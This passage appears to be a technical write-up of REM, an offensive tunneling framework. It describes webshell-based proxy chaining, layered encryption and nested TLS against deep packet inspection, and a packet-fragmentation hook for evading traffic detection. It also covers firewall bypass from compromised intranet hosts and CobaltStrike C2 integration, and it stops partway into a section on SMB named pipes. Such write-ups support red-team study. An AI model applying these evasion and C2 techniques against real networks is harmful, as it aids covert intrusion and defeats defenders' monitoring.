REM architecture achieves protocol-boundaryless capabilities through inter-transport-layer proxy integration. The core is the proxyclient library, which effectively blurs boundaries between data transmission and proxying, unifying traditionally isolated proxy protocols as composable modular components.

_(proxyclient was originally a sub-package in REM, but its application scenarios far exceed REM, so we abstracted it from REM as a lightweight, dependency-free independent package)_

#### 2.4.1 Golang Proxy Background Knowledge

Traditional Golang proxies have fundamental cognitive biases. Most developers use:

```go
// Wrong proxy usage - only for HTTP
func main() {
    proxyUrl, _ := url.Parse("http://127.0.0.1:8080")
    client := &http.Client{
        Transport: &http.Transport{
            Proxy: http.ProxyURL(proxyUrl),
        },
    }
    // This method only works for HTTP, cannot handle TCP/UDP traffic
}
```

**Correct Golang Proxy Usage**

```go
// Correct proxy abstraction - protocol-agnostic
func main() {
    proxyURL, err := url.Parse("socks5://127.0.0.1:1080")
    if err != nil {
        log.Fatal(err)
    }

    dialer, err := proxyclient.NewClient(proxyURL)
    if err != nil {
        log.Fatal(err)
    }

    transport := &http.Transport{
        Dial: dialer.Dial, // Directly use Dial interface
    }

    client := &http.Client{
        Transport: transport,
    }
    // This method supports all protocols
}
```

The key advantage of this design is that it supports multiple proxy protocols like SOCKS5, HTTP through `proxyclient`'s unified abstraction, directly uses Dial interface avoiding performance loss, while compatible with TCP/UDP traffic, thus applicable to all network application scenarios. By rewriting the dialer interface, we can use any network protocol as proxy. Based on this inspiration, we reimplemented the proxyclient library, greatly expanding Golang's proxy ecosystem.

**Supported Protocols**

- **HTTP/HTTPS**
- **SOCKS5/4/4a**
- **ShadowSocks**
- **SSH proxy**
- **neoreg (webshell)**
- **suo5 (webshell)**

**Integration with WebShell Proxies: Bidirectional Interoperability Between neoreg and suo5**

Traditional perception holds fundamental differences between WebShell proxies and standard proxy protocols. proxyclient completely breaks this boundary, implementing **bidirectional interoperability architecture** between neoreg and suo5.

In traditional scenarios, tools like pystinger achieve similar effects. They implement bidirectional data interoperability through APIs provided on webshells. But in REM, **we can achieve this using any proxy/webshell**, and we greatly optimize performance through completely in-memory operations.

#### 2.4.3 Dynamic Registration Mechanism and Bootstrapping

The dynamic registration mechanism is one of proxyclient's core innovations with REM integration. Its essence is **registering REM itself as proxy protocol in proxyclient, achieving bootstrapping capability**. This allows REM to both use other proxy protocols and be called as proxy protocol by other tools.

**Bidirectional Registration Technical Architecture**

[Diagram showing bidirectional registration architecture]

By registering REM itself as proxyclient, originally extremely complex integration operations **become operations where any Golang tool can use REM-provided encrypted stable channels as transport layer with under three lines of code.**

This is a simple example. If there's a C2 tool implemented based on HTTP, we only need newRemProxyClient to directly use it as HTTP transport layer.

```go
remurl, _ := url.Parse("tcp://nonenonenonenone:@127.0.0.1:1234/?wrapper=raw")
pc, err := newRemProxyClient(remurl, nil)
if err != nil {
    return
}
client := &http.Client{
    Transport: &http.Transport{
        DialContext: pc,
    },
}
_, err = client.Get("http://127.0.0.1:1111/")
if err != nil {
    panic(err)
}
```

#### 2.4.4 Lossless Proxy Performance Principles

Performance bottlenecks in traditional proxy environments mainly manifest in high-concurrency scenarios, especially port scanning encounters massive packet loss. Main reasons include:

1. **Uneven proxy server implementations**: Many proxy tools (like single-file socks5 tools) lack investment in performance optimization
2. **Environmental limitation impacts**: WebShell proxies limited by language environment and runtime conditions, poor concurrency performance. Without building duplex channels, can only simulate long connections through polling, with more severe performance bottlenecks
3. **Client tool limitations**: Tools like proxifier, proxychains, clash mainly optimize for bandwidth, lacking specialized optimization for high-concurrency scenarios

Based on proxyclient library design, REM achieves performance optimization through in-memory SOCKS5 proxy protocol simulation. The core principle creates memoryPipe in memory, starts memory proxy service through NewConsoleWithCMD, implementing direct data exchange between proxyclient and REM in memory, avoiding real network connection overhead.

Another key performance optimization is **timing optimization of SOCKS authentication processing**. REM processes SOCKS authentication when user-server connection establishes, while traditional protocols like frp, nps process authentication at proxy client.

This timing difference brings significant performance impact:

- **REM approach**: One-time authentication completion at connection establishment, subsequent data transmission requires no repeated authentication processing, avoiding authentication overhead accumulation
- **Traditional approach**: Each connection requires authentication processing at proxy client, increasing computational overhead and latency, serious performance loss in high-concurrency scenarios

By front-loading authentication processing to connection establishment stage, REM avoids repeated authentication overhead in high-concurrency scenarios—an important technical detail achieving zero performance loss.

#### 2.4.5 Chained Proxy

Chained proxy is one of proxyclient's core capabilities, supporting chaining multiple proxy servers to form complex proxy chains. This capability has extremely high value in complex network environments.

**Typical Chained Proxy Scenario:**

[Mermaid diagram showing attack tool → SSH jumpbox → SOCKS5 proxy → HTTP gateway → neoreg WebShell → target intranet]

_(In OSI model terms, this is equivalent to network layer routing and protocol conversion, implementing cross-network path selection and protocol adaptation through proxies)_

_We can implement chained proxies through extremely simple configuration._

```go
proxy1, _ := url.Parse("socks5://localhost:1080")  
proxy2, _ := url.Parse("http://localhost:8080")  
dial, err := proxyclient.NewClientChain([]*url.URL{proxy1, proxy2})  
```

### 2.5 Outside Transport Layer: Protocol Stack Orchestrator

Sections 2.1-2.4 respectively described Tunnel transport abstraction, Simplex+ARQ reliability transformation, Wrapper encryption/obfuscation, proxyclient proxy integration and other layer capabilities. The Hook mechanism serves as core orchestrator, flexibly combining these scattered capabilities into complete attack channels through priority control and chained execution.

#### 2.5.1 Hook Mechanism

[https://github.com/chainreactors/rem/blob/master/protocol/tunnel/options.go](https://github.com/chainreactors/rem/blob/master/protocol/tunnel/options.go)

In Section 2.1.2, we also used similar mechanisms implementing secondary wrapping operations on Conn like tls, tlsintls, compress, shadowtls.

Provides BeforeHook and AfterHook two hook types, injecting processing logic before and after connection establishment. The value lies not only in operations on single Conn (like TLS, compression shown in Section 2.1.2), but more in **orchestrating all capabilities from Sections 2.1-2.4 as collaborative whole**.

**Hook's Orchestration Capability**:

```go
// Hook orchestration example based on actual code (from console.go)
tunOpts := []tunnel.TunnelOption{}

// TLS encryption layer (Section 2.1.2)
if console.ConsoleURL.GetQuery("tls") != "" {
    tunOpts = append(tunOpts, tunnel.WithTLS())  // Priority MaxInt-10
}

// TLS in TLS double encryption (Section 2.1.2)
if console.ConsoleURL.GetQuery("tlsintls") != "" {
    tunOpts = append(tunOpts, tunnel.WithTLSInTLS())  // Priority MaxInt-110
}

// Network layer: Proxy integration (Section 2.4)
if len(runner.ForwardAddr) > 0 {
    tunOpts = append(tunOpts, tunnel.WithProxyClient(runner.ForwardAddr))
    // ForwardAddr example: []string{"socks5://proxy:1080", "neoreg://shell/t.php"}
}

// Data compression (Section 2.1.2)
if console.ConsoleURL.GetQuery("compress") != "" {
    tunOpts = append(tunOpts, tunnel.WithCompression())  // Priority WrapperPriority±5
}

// Presentation layer: Encryption/obfuscation chain (Section 2.3.2)
var wrapperOpts core.WrapperOptions
if wrapperStr := console.ConsoleURL.GetQuery("wrapper"); wrapperStr != "" {
    wrapperOpts, _ = core.ParseWrapperOptions(wrapperStr, runner.Key)
} else {
    // Auto-generate 2-4 layer random Wrapper
    wrapperOpts = core.GenerateRandomWrapperOptions(2, 4)
}
if wrapperOpts != nil {
    tunOpts = append(tunOpts, tunnel.WithWrappers(isServer, wrapperOpts))
    // Priority WrapperPriority(20)
}

// Create complete Tunnel, all Hooks auto-orchestrated by priority
tunnel, _ := tunnel.NewTunnel(context.Background(), scheme, isServer, tunOpts...)
```

Hook mechanism controls execution order through priority, ensuring each layer processes data in correct order:

```
Data send flow (priority low to high):
Raw data
  ↓ [Priority 20: Wrapper encryption/obfuscation chain] - 2-4 layer random encryption (2.3.2)
  ↓ [Priority 25: Snappy compression] - Reduce bandwidth (2.1.2)
  ↓ [Priority MaxInt-110: TLS in TLS] - Inner TLS (2.1.2)
  ↓ [Priority MaxInt-10: TLS encryption] - Outer TLS (2.1.2)
  ↓ [Tunnel transmission] - Through Simplex+ARQ (2.2)
  ↓ [ProxyClient] - Through multi-level proxy (2.4)
  → Network transmission

Data receive flow (reverse processing):
Network reception
  ↓ [ProxyClient] - Reverse proxy chain
  ↓ [Tunnel reception] - Simplex+ARQ reassembly
  ↓ [Priority MaxInt-10: TLS decryption] - Strip outer TLS first
  ↓ [Priority MaxInt-110: TLS in TLS decryption] - Strip inner TLS
  ↓ [Priority 25: Snappy decompression] - Decompress data
  ↓ [Priority 20: Wrapper decryption] - Reverse decryption/obfuscation chain
  → Raw data
```

**Scenario 1: Restricted Enterprise Network Breakthrough**

```go
// Only HTTPS outbound allowed, need maximum stealth
tunOpts := []tunnel.TunnelOption{
    tunnel.WithWrappers(false, wrapperOpts),  // Custom encryption (2.3.2)
    tunnel.WithTLS(),                          // Outer TLS camouflage (2.1.2)
}
// Effect: Wrapper encryption → TLS wrapping → Looks like normal HTTPS traffic
```

**Scenario 2: WebShell Tunnel**

```go
// Build high-performance tunnel through WebShell, maximize bandwidth utilization
tunOpts := []tunnel.TunnelOption{
    tunnel.WithProxyClient([]string{"neoreg://webshell/tunnel.php"}), // WebShell proxy (2.4)
    tunnel.WithCompression(),                                          // Compression (2.1.2)
    tunnel.WithWrappers(false, lightWeightWrappers),                   // Lightweight encryption (2.3.2)
}
// Effect: Lightweight encryption → Compression → neoreg → WebShell
//      Single channel multiplexing, bandwidth utilization maximized
```

**Scenario 3: Multi-layer Encryption Against Deep Inspection**

```go
// Counter DPI deep packet inspection, use multi-layer TLS
tunOpts := []tunnel.TunnelOption{
    tunnel.WithWrappers(false, wrapperOpts),  // Random Wrapper obfuscation (2.3.2)
    tunnel.WithCompression(),                  // Compression breaks statistical signatures (2.1.2)
    tunnel.WithTLSInTLS(),                     // Inner TLS (2.1.2)
    tunnel.WithTLS(),                          // Outer TLS (2.1.2)
}
// Effect: Wrapper → Compression → TLS → TLS
//      Multi-layer nesting, each layer has legitimate certificate, extremely hard to identify
```

1. **Flexible combination of protocol stack capabilities**: Flexibly orchestrate independent capabilities like Tunnel, Simplex, ARQ, Wrapper, proxyclient through priority mechanism
2. **Rapid recombination for scenario adaptation**: Dynamically control Hook configuration through URL parameters (like `?tls&compress&wrapper=aes-cfb,xor`), no code modification needed
3. **Fine control of traffic signatures**: Precisely control final traffic signatures through Hook chain order and parameters (encryption layers, compression ratio, TLS nesting depth, etc.)
4. **Automated adversarial capability**: `GenerateRandomWrapperOptions(2, 4)` auto-generates 2-4 layer random Wrapper, each connection has different encryption chain

Through Hook mechanism, REM achieves transformation from "fixed protocol stack" to "orchestratable protocol stack"—one of its core capabilities as attack infrastructure platform.

#### 2.5.2 Statistical-Level Adversarial Operations

Hook mechanism has another value not introduced in Section 2.1 due to transport layer independence. In Section 2.1, we described this mechanism's essence as secondary operations on Conn. Besides wrapping various techniques from Sections 2.1-2.4 as tunnel hooks, we can add independent hook configurations, such as splitting one packet into multiple packets, adding random time series to each packet, etc.

**Case: Packet Fragmentation**

Fragmentation Hook breaks traffic statistical signatures, evading traffic analysis-based detection:

```go
// Statistical adversarial Hook: Packet fragmentation
func WithPacketFragmentation(maxPacketSize int, randomDelay bool) TunnelOption {
    return newFuncTunnelOption(func(do *TunnelService) {
        do.afterHooks = append(do.afterHooks, core.AfterHook{
            Priority: DefaultHookPriority + 15,
            DialerHook: func(ctx context.Context, c net.Conn, addr string) (context.Context, net.Conn, error) {
                // Wrap Conn, implement packet fragmentation
                fragConn := &FragmentationConn{
                    Conn:          c,
                    maxPacketSize: maxPacketSize,
                    randomDelay:   randomDelay,
                }
                return ctx, fragConn, nil
            },
        })
    })
}

// Packet fragmentation Conn implementation (conceptual example)
type FragmentationConn struct {
    net.Conn
    maxPacketSize int
    randomDelay   bool
}

func (f *FragmentationConn) Write(p []byte) (n int, err error) {
    // Statistical adversarial: Split large packet into multiple small packets
    totalLen := len(p)
    offset := 0

    for offset < totalLen {
        // Calculate this send's packet size
        chunkSize := f.maxPacketSize
        if offset+chunkSize > totalLen {
            chunkSize = totalLen - offset
        }

        // Send fragmented small packet
        chunk := p[offset : offset+chunkSize]
        _, err := f.Conn.Write(chunk)
        if err != nil {
            return offset, err
        }

        offset += chunkSize

        // Optional: Add random delay, simulate normal interactive traffic
        if f.randomDelay && offset < totalLen {
            time.Sleep(time.Duration(rand.Intn(50)) * time.Millisecond)
        }
    }

    return totalLen, nil
}
```

**Actual Effects of Statistical Adversarial Operations:**

Suppose original traffic is one 5KB large packet:

```
Original traffic signature:
  [=====5000 bytes=====]
  Signature: Single large packet, obvious burst traffic

After applying fragmentation Hook (maxPacketSize=50):
  [50] [50] [50] ... [50] [50]  (100 small packets total)
  Signature: Multiple small packets, similar to normal interactive traffic (like SSH, HTTP requests)

If randomDelay enabled:
  [50]--5ms--[50]--23ms--[50]--8ms--...
  Signature: Random packet intervals, closer to human operation time characteristics
```

This fragmentation technique effectively breaks traffic statistical signatures:

- **Packet size distribution**: Transforms large packets to small packets, conforming to normal interactive traffic packet size distribution
- **Burst characteristics**: Eliminates obvious data bursts, traffic becomes smoother
- **Time characteristics**: Simulates human operation time intervals through random delays
- **Detection evasion**: Bypasses packet size-based anomaly detection rules (like "single packet exceeds 4KB" alerts)

**Hook Chain Combined Usage:**

Multiple Hooks can be combined, executing in priority order:

```go
tunnel := NewTunnel(
    WithPacketFragmentation(100, true),      // Priority 25: Fragment first
    WithCompression(),                        // Priority 25: Then compress
    WithTLS(),                               // Priority MaxInt-10: Finally TLS encrypt
)

Data flow processing order:
Raw data
  → Fragmentation (100 bytes/packet)
  → Compression
  → TLS encryption
  → Network transmission
```

Through Hook mechanism, REM can inject various processing logic at different stages of connection establishment: conventional operations like TLS encryption, data compression, Wrapper obfuscation, as well as statistical adversarial operations like delay injection, traffic shaping, statistical padding. These Hooks execute in priority order, each layer focusing on specific functionality, providing flexible extension capabilities for transport layer.

---

## 3. Widespread Applications of Offensive Protocol Stack

Based on the attack-oriented protocol stack reconstruction architecture built in Chapter 2, REM demonstrates significant improvements in actual network adversarial scenarios. These application scenarios transcend functional enhancements of traditional proxy tools, effectively improving methods and effects of network-side adversarial operations through systematic protocol stack reconstruction.

Through transport layer's protocol-agnostic transport abstraction, presentation layer's dynamic encryption/obfuscation chain, session layer's lightweight multiplexing, and protocol-boundaryless integration achieved through proxyclient, REM architecture provides effective infrastructure support for various advanced attack applications.

Ultimately, we easily replicated capabilities of various tools using REM, and conducted more innovative practices.

|**Tool Name**|**Type**|**REM Simulation Capability (Channel/Protocol)**|**Notes**|
|---|---|---|---|
|**frp**|**Port forwarding/tunnel**|**Provides TCP/UDP port forwarding, reverse proxy, multi-port listening, etc.**|**Fully implements core functionality**|
|**gost**|**Tunnel/proxy**|**Simulates multi-protocol tunnels (like TCP, UDP, WebSocket), forwarding and proxy functionality.**|**Fully implements core functionality**|
|**nps**|**Port forwarding/proxy**|**Provides TCP/UDP port forwarding, reverse proxy, socks5/http proxy, etc.**|**Fully implements core functionality**|
|**spp**|**Port forwarding**|**Simulates TCP/UDP port forwarding functionality.**|**Fully implements core functionality**|
|**pingtunnel**|**ICMP tunnel**|**Implements ICMP Echo/Reply-based tunnel communication.**|**Implemented through kcp+icmp**|
|**iox**|**Port forwarding**|**Provides TCP/UDP-based port forwarding functionality.**|**Implemented port forwarding at application layer**|
|**GC2-sheet**|**LolC2 (cloud service channel)**|**Simulates C2 channel for data exchange through cloud service APIs like Google Sheets.**|**Implemented through simplex+google/graph api**|
|**dnstunnel**|**DNS tunnel**|**Simulates DNS query/response mechanism, hiding data in DNS traffic.**|**Implemented through simplex+dns**|
|**CobaltStrike Profile**|**C2 traffic camouflage**|**Simulates traffic profile signatures of C2 frameworks like CobaltStrike.**|**Can simulate any HTTP protocol through padding wrapper**|
|**CobaltStrike ExternalC2**|**C2 extension interface**|**Simulates CobaltStrike's ExternalC2 protocol, serving as external communication channel for C2.**|**Implemented externalc2 at application layer**|
|**suo5**|**WebShell proxy**|**Simulates suo5 webshell proxy protocol, implementing network proxy through webshell.**|**Implemented suo5 client through proxyclient**|
|**neoreg**|**WebShell proxy**|**Simulates neoreg webshell proxy protocol, implementing network proxy through webshell.**|**Implemented neoreg client through proxyclient**|
|**Xray**|**Proxy/tunnel platform**|**Simulates its Vless, Trojan protocols and routing, transport layer configuration (like TLS, WebSocket, HTTP/2).**|**Can be integrated into REM. Though REM can implement similar functionality, its capability boundaries are similar to original version, we don't plan to use REM in this aspect**|
|**Reality**|**TLS camouflage protocol**|**Simulates Reality's traffic camouflage (disguising TLS traffic as normal website traffic) capability.**|**Can be integrated into REM.**|

### 3.1 Application Layer Abstraction: Bidirectional Protocol Processing of Outbound and Inbound

**Application Layer Abstraction Requirements**: Chapter 2 built transport, presentation, and session layers providing REM powerful underlying capabilities, but these capabilities ultimately need exposure to users and tools through application layer protocols. REM achieves unified application layer protocol processing framework through two core abstractions: Outbound and Inbound.

In traditional network tools, each application protocol (SOCKS5, HTTP proxy, Shadowsocks, etc.) requires independent client and server logic implementation, with code duplication and difficult reuse. REM decouples application layer protocol processing into two directional operations through Outbound/Inbound abstraction, combined with dynamic registration mechanism, achieving flexible protocol combination and extension.

#### 3.1.1 Outbound: Protocol Server Handling Outbound Connections

**Core Role of Outbound**: Processes protocol connection requests from user tools, parses protocol content, establishes connections to target addresses. Outbound acts as protocol server role, responsible for understanding and responding to protocol requests.

**Outbound Interface Definition**:

```go
type Outbound interface {
    Name() string
    Handle(conn io.ReadWriteCloser, realConn net.Conn) (net.Conn, error)
    ToClash() *utils.Proxies
}

type OutboundCreatorFn func(options map[string]string, dial ContextDialer) (Outbound, error)
```

- **conn io.ReadWriteCloser**: Connection with user tool (connection after Wrapper encryption, Mux multiplexing)
- **realConn net.Conn**: Underlying transport layer connection (net.Conn provided by Tunnel)
- **dial ContextDialer**: Dialer for initiating connections to target addresses, can be proxy dialer provided by proxyclient

**SOCKS5 Outbound Implementation Example** (based on actual code from socks5.go):

```go
type Socks5Plugin struct {
    Server *socks5.Server
    *core.PluginOption
}

func (sp *Socks5Plugin) Handle(conn io.ReadWriteCloser, realConn net.Conn) (net.Conn, error) {
    // Wrap as complete net.Conn
    wrapConn := cio.WrapConn(realConn, conn)

    // Parse SOCKS5 protocol request
    ctx := context.Background()
    req, err := sp.Server.ParseConn(ctx, wrapConn)
    if err != nil {
        return nil, err
    }

    // Use Server's Dial method to connect target address
    // Dial here may be provided by proxyclient, supporting multi-level proxies
    target, err := sp.Server.Dial(ctx, req, wrapConn)
    if err != nil {
        return nil, err
    }

    return target, nil
}
```

Outbound's workflow is: after receiving and parsing SOCKS5 requests transmitted through encrypted multiplexed tunnels, connect to real target through ContextDialer potentially containing multi-level proxies, ultimately establishing transparent data forwarding channel between user tool and target.

#### 3.1.2 Inbound: Relaying Protocol Requests to Remote End

**Core Role of Inbound**: Relays locally received connections through protocol format to remote bridge connection. Inbound acts as protocol client role, responsible for encoding local requests as protocol format and sending to remote end.

**Inbound Interface Definition**:

```go
type Inbound interface {
    Name() string
    Relay(conn net.Conn, bridge io.ReadWriteCloser) (net.Conn, error)
}

type InboundCreatorFn func(options map[string]string) (Inbound, error)
```

**Key Parameter Explanation**:

- **conn net.Conn**: Locally received connection (like TCP connection received by port forwarding)
- **bridge io.ReadWriteCloser**: Bridge connection to remote end (connection processed by Tunnel, Wrapper, Mux)

**SOCKS5 Inbound Implementation Example** (based on actual code from socks5.go):

```
func (sp *Socks5Plugin) Relay(conn net.Conn, bridge io.ReadWriteCloser) (net.Conn, error) {
    // Parse SOCKS5 request from the local connection
    req, err := sp.Server.ParseConn(context.Background(), conn)
    if err != nil {
        return nil, err
    }

    // Build the SOCKS5 relay request and send it to the remote bridge
    _, err = bridge.Write(req.BuildRelay())
    if err != nil {
        return nil, err
    }

    // Read the SOCKS5 response from the remote bridge
    rep, addr, _ := socks5.ReadReply(bridge)
    if rep != socks5.RepSuccess {
        return nil, fmt.Errorf("relay failed: %v", rep)
    }

    // Send a success reply back to the local connection
    conn.Write(socks5.BuildSuccessReply(addr))

    return conn, nil
}
```

**Inbound workflow**:

1. Local app (e.g., port forwarding) receives a connection  
2. Inbound parses the SOCKS5 request from the local connection  
3. Encodes the request as SOCKS5 and sends it over the bridge  
4. Remote Outbound processes the request and builds the target connection  
5. Response returns via the bridge and Inbound forwards it to the local connection

#### 3.1.3 Reverse vs Proxy Modes: Inbound Placement Shapes the Topology

**Core idea**: REM uses two modes—Reverse and Proxy—to decide **where the Inbound lives**, which in turn defines network topology and attack scenarios.

**Essential responsibilities of Inbound and Outbound** (based on actual code from agent.go):

```
// handlerInbound: listen on a local port, accept user connections
func (agent *Agent) handlerInbound(local, remote *core.URL, control *message.Control) error {
    err := agent.ListenAndServe(local, control)  // listen on local port
    instant, err := core.InboundCreate(local.Scheme, options)  // create Inbound
    agent.Inbound = instant  // Inbound.Relay() relays user requests to the remote side
    return nil
}

// handlerOutbound: receive relayed requests and connect to the target
func (agent *Agent) handlerOutbound(local, remote *core.URL, control *message.Control) error {
    instant, err := core.OutboundCreate(local.Scheme, options, core.NewProxyDialer(agent.client))
    agent.Outbound = instant  // Outbound.Handle() processes protocol requests and dials targets
    return nil
}
```

- **Inbound = ListenAndServe + Relay**: Listen for user connections and relay them to the remote side  
- **Outbound = Handle + Dial**: Process relayed protocol requests and connect to the real target  
- **Same protocol implementation** (e.g., Socks5Plugin) implements both interfaces; mode selection decides which side runs which role

**Reverse mode** (Inbound on the server side—firewall bypass):

```
Topology:
User tool → Server (internet, isAccept=true) ← Client (intranet, outbound initiator)

Flow:
User → Server listening on :1080 → Inbound.Relay() → Tunnel transport
  → Client → Outbound.Handle() → Intranet target

Server side:
  - ListenAndServe(:1080) to listen on SOCKS5
  - Inbound receives user SOCKS5 connections
  - Relay() sends requests to the Client

Client side:
  - Actively connects to the Server to build the Tunnel
  - Outbound receives relayed requests
  - Handle() parses SOCKS5, Dial() connects to intranet targets
```

**Attack value**: Client inside the intranet actively connects out to the internet Server, bypassing inbound firewall rules. After compromising an intranet machine, use the Client to dial out and build the tunnel; users access intranet resources via the Server.

**Proxy mode** (Inbound on the client side—forward proxy):

```
Topology:
User tool → Client (user side, isAccept=false) → Server (target network, isAccept=true)

Flow:
User → Client listening on :1080 → Inbound.Relay() → Tunnel transport
  → Server → Outbound.Handle() → Target network

Client side:
  - ListenAndServe(:1080) to listen on SOCKS5
  - Inbound receives user SOCKS5 connections
  - Relay() sends requests to the Server

Server side:
  - Client connects to Server to build the Tunnel
  - Outbound receives relayed requests
  - Handle() parses SOCKS5, Dial() connects to the target network
```

**Attack value**: Server sits in the target network; the user proxies through the local Client to reach remote targets. Fits multi-hop/jump-box chains—Clients can chain multiple Servers.

**Mode comparison**:

| Mode    | Inbound location         | User connects to | Target connection from | Typical use case              |
|---------|--------------------------|------------------|------------------------|--------------------------------|
| Reverse | Server side (internet)   | Server           | Client → intranet      | Firewall bypass, intranet ops |
| Proxy   | Client side (local)      | Client           | Server → target net    | Forward proxy, cascaded hops  |

**Protocols already supported** (dual registration for both directions, based on consts.go):

- **socks5** – SOCKS5 proxy protocol  
- **http** – HTTP proxy protocol  
- **ss** – Shadowsocks  
- **trojan** – Trojan  
- **forward** – Port forwarding  
- **cs** – CobaltStrike External C2  
- **raw** – Raw TCP forwarding

#### 3.1.4 Integration with the Protocol Stack: Full Path from Transport to Application

**End-to-end data path** (Reverse mode with SOCKS5):

```
User tool (port scanner)
  ↓ [initiates SOCKS5 connection to Server:1080]
Server-side Inbound (SOCKS5)
  ↓ [parses SOCKS5 request, extracts target]
  ↓ [sends to remote via bridge.Write()]
Server-side Mux (Section 2.3.3)
  ↓ [multiplex multiple SOCKS5 requests over one Tunnel]
Server-side Wrapper chain (Section 2.3.2)
  ↓ [encryption/obfuscation, e.g., AES-CFB → XOR → HTTP padding]
Server-side Tunnel (Section 2.1)
  ↓ [transport layer send: could be TCP/ICMP/DNS, etc.]
  ↓ [may traverse proxyclient chain (Section 2.4)]
Network transport
  ↓
Client-side Tunnel (Section 2.1)
  ↓ [transport receive]
Client-side Wrapper chain (Section 2.3.2)
  ↓ [reverse decrypt: strip HTTP → XOR de-obfuscation → AES-CFB]
Client-side Mux (Section 2.3.3)
  ↓ [demux, dispatch to the right stream]
Client-side Outbound (SOCKS5)
  ↓ [Handle parses SOCKS5 request]
  ↓ [ContextDialer connects to target]
Intranet target (192.168.1.100:22)
```

**Where Outbound/Inbound sit in the stack**:

- **Top of application layer**: directly interfaces with user tools and target services  
- **Depends on lower layers**: consumes Tunnel net.Conn, Wrapper encryption, Mux multiplexing, proxyclient dialers  
- **Protocol agnostic**: underlying transport can be TCP/ICMP/DNS/WebShell; Outbound/Inbound do not care  
- **Dynamically extensible**: register a new protocol by implementing the interfaces

This application-layer abstraction lets REM flexibly mix protocols and modes, providing the unified app-layer foundation used across the attack scenarios in the following sections.

### 3.2 Zero-Performance-Loss Proxy Protocol

Traditional proxy tools hit performance walls in **high-concurrency** scenarios (e.g., port scans). Numerous tiny SOCKS handshakes block and consume resources; mapping every connection to a real network connection creates heavy overhead.

Built on the Chapter 2 stack, REM’s breakthrough is **in-memory emulation of the SOCKS5 proxy protocol**. Via the memory transport layer, REM simulates SOCKS5 handshakes and data exchange directly in memory—no network I/O needed for the handshake phase.

- When a scanner issues a connect, REM simulates the full SOCKS5 handshake in memory  
- Many concurrent requests are scheduled and multiplexed in memory, avoiding real connection overhead  
- Bulk data rides optimized tunnels that maximize bandwidth use

**Real-world effect**:

- **Large-scale port scans**: one node can handle tens of thousands of concurrent scan connections with near-direct performance  
- **Distributed brute force**: large-scale auth attempts over multi-level tunnels with no performance decay  
- **High-rate API calls**: supports high-frequency API calls without proxy-layer bottlenecks

This zero-overhead concurrency lets offensive tools perform at near-local speed even in complex network environments, greatly expanding tactical options.

### 3.3 General-Purpose Protocol Chains Across Any Medium

#### Traditional Limits of Cascaded Network Attacks

In complex adversarial environments, attackers often need **multi-level network pivots**. Traditional cascade tools have fundamental limits:

**Evolution of traditional cascade tools**:
- **Early**: relay-style port forwarders like lcx, ew  
- **Modern**: in-memory SOCKS5/C2-style cascades like Stowaway, venom  
- **Shared limits**: fixed protocol stacks, poor composability

**Core issues**:
- Protocol fingerprints: fixed smux/yamux traits, static stacks, and predictable handshakes are easy to detect  
- Performance: stacked latency, conversion overhead, single points of failure degrade performance and stability

These constraints prompted REM’s rethinking of cascade design.

#### Real Cascade Scenarios

**Scenario 1: Standard three-tier network penetration**



**Scenario 2: Cascading through WebShells**


**Unlimited combinations of transport media**

REM supports flexible mixing of transports: TCP, UDP, ICMP, WebSocket, SMB named pipes, HTTP APIs, etc. Any medium that can exchange data can be a cascade hop, letting attackers **build complex topologies** that merge previously isolated network zones into a unified offensive substrate—massively widening the reach of network-side operations.

### 3.4 C2 Infrastructure Integration

REM offers three integration depths for C2 frameworks, each with distinct advantages.

#### Reuse Proxy Channels

Bring up REM binaries to provide proxy channels; let the C2 reuse them via standard HTTP/SOCKS:

```
# Start REM proxy services
./rem -c [rem_link] -m proxy -l socks5://:1080
./rem -c [rem_link] -m proxy -l http://:8080
```

- **Standards-based**: HTTP/SOCKS5 so C2 frameworks need no changes  
- **Port mapping**: REM listens on specified ports and forwards C2 traffic to targets  
- **Protocol translation**: REM handles C2 protocol ↔ transport protocol conversion internally  
- **Multi-protocol**: HTTP and SOCKS5 in parallel to fit different C2 needs

#### External C2 Protocol Overload

Code: [https://github.com/chainreactors/rem/blob/master/protocol/serve/externalc2/externalc2.go](https://github.com/chainreactors/rem/blob/master/protocol/serve/externalc2/externalc2.go)  
Official docs: [https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/listener-infrastructure_external-c2.htm](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/listener-infrastructure_external-c2.htm)

Use CobaltStrike External C2 to overload the C2 channel with REM as a special app-layer protocol.

```
# Build an External C2 channel with REM
./rem -c [rem_link] -m proxy -l cs://:12345 -r raw://
```

The implant (custom) and channel (REM-based) pair to carry C2 traffic.

#### Embed into Any C2 Implant

Export REM core APIs as standard FFI via CGO for deep implant integration.

**FFI interface (based on the actual implementation signatures)**  
Code: [https://github.com/chainreactors/rem/blob/master/cmd/export/main.go](https://github.com/chainreactors/rem/blob/master/cmd/export/main.go)

```
// REM agent connection - returns Agent ID, or NULL on failure
char* RemDial(char* cmdline);

// Memory proxy connection - returns handle, or 0 on failure
int MemoryDial(char* memhandle, char* dst);

// Read from memory connection - returns bytes read, or 0 on failure
int MemoryRead(int chandle, void* buf, int size);

// Write to memory connection - returns bytes written, or 0 on failure
int MemoryWrite(int chandle, void* buf, int size);

// Close memory connection - returns 0 on success, else error code
int MemoryClose(int chandle);

// Clean up all Agent connections
void CleanupAgent();
```

**Build**

```
# Shared library
go build -buildmode=c-shared -o rem.dll -ldflags "-s -w" .\cmd\export\
# Static library
go build -buildmode=c-archive -o rem.a -ldflags "-s -w" .\cmd\export\
```

**Usage example** (Rust FFI in IoM):

```
extern "C" {
    fn RemDial(cmdline: *const c_char) -> (*mut c_char, c_int);
    fn MemoryDial(memhandle: *const c_char, dst: *const c_char) -> (c_int, c_int);
    fn MemoryRead(handle: c_int, buf: *mut c_void, size: c_int) -> (c_int, c_int);
    fn MemoryWrite(handle: c_int, buf: *const c_void, size: c_int) -> (c_int, c_int);
}
```

By overloading via FFI, REM wraps its **network comms** as standard APIs so any implant can call into near-zero-loss proxying, multiplexing, and protocol-agnostic transport. This turns REM from a **C2 comms enhancer** into a **C2 infrastructure component**, providing strong comms capability and stealth for modern C2 frameworks.

### 3.5 Transport-Layer Implementations over Any Channel

#### 3.5.1 Theoretical Basis for “Any Channel” Abstraction

A key REM trait: **if data can be exchanged, it can be a REM transport layer**. This breaks the classic constraint on transport protocols and redefines “data-exchange medium” as “transport protocol.”

**SMB named pipe case**

A REM transport built on remote SMB named pipes showcases this “any channel” abstraction:  
